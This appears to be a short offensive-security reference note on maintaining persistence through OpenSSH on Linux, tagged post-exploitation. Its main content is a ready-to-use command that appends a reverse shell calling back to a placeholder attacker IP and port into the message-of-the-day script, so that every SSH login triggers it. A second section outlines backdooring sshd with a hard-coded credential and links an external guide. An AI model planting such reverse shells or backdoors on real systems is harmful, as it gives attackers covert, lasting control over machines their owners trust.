 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - network-protocols
  - ssh
  - linux
---
```

# OpenSSH

## 01 - Message of the Day (MOTD)

```
# cat >> /etc/update-motd.d/00-header << EOF
bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
EOF
```

## 02 - Backdoor OpenSSH Server

TODO: Show the steps to modify the source code and then compile it by inserting a static username and password to always authenticate.

---
## References

- [[Linux Post Exploitation Persistence References]]

- [Pikami: Backdooring OpenSSH Server](https://pikami.org/blog/backdooring-openssh-server/)